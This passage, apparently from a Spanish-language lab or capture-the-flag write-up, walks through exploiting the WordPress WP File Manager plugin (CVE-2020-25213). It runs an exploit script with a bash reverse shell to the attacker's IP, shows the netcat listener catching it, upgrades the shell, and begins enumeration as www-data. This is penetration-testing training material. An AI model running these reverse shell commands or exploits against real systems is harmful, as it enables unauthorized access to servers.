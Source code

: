 * Con el Exploit, manda nuestra **Reverse Shell** de confianza, indicando que se ejecute con **Bash**:
```bash
python3 WP-file-manager-v69-exploit.py http://192.168.1.005/blog/ "bash -c 'bash -i >& /dev/tcp/Tu_IP/443 0>&1'"
```
**OJO**: Esto va a dejar inutilizada la terminal donde estés ejecutando este Exploit.

* Observa la **netcat**:

```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.005] 46010
bash: cannot set terminal process group (486): Inappropriate ioctl for device
bash: no job control in this shell
<ress/wp-content/plugins/wp-file-manager/lib/files$
```
Ganamos acceso a la máquina.

Existe otra versión de este Exploit que puedes probar:
* <a href="https://github.com/mansoorr123/wp-file-manager-CVE-2020-25213" target="_blank">Repositorio de mansoorr123: WP-file-manager expoit CVE-2020-25213</a>

Con esta versión, tú puedes subir tu propio payload malicioso.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="Enum">Enumeración de la Máquina</h2>

Si no lo has hecho, obtén una sesión interactiva:
```bash
<ress/wp-content/plugins/wp-file-manager/lib/files$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
<ress/wp-content/plugins/wp-file-manager/lib/files$ ^Z
zsh: suspended  nc -nlvp 443
                                                                                                       
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
<ress/wp-content/plugins/wp-file-manager/lib/files$ export TERM=xterm
<ress/wp-content/plugins/wp-file-manager/lib/files$ export SHELL=bash
<ress/wp-content/plugins/wp-file-manager/lib/files$ stty rows 51 columns 189
```
Ahora sí, continuemos.

Veamos primero la información de nuestro usuario:
```bash
<ress/wp-content/plugins/wp-file-manager/lib/files$ whoami
whoami
www-data
<ress/wp-content/plugins/wp-file-manager/lib/files$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
<ress/wp-content/plugins/wp-file-manager/lib/files$ sudo -l
sudo -l
bash: sudo: command not found
```
Parece que no vamos a poder hacer mucho.
